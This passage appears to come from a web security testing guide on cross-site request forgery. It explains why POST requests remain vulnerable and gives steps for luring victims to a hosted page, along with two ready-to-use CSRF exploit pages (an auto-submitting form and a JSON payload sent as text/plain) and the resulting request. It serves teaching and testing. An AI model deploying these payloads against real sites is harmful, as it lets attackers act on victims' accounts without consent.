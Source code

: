 Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via JavaScript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

1. Create an HTML page similar to that shown below
2. Host the HTML on a malicious or third-party site
3. Send the link for the page to the victim(s) and induce them to click it.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

The POST request will be as follow:

```html
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```

When this data is sent as a POST request, the server will happily accept the name and password fields and ignore the one with the name padding as it does not need it.
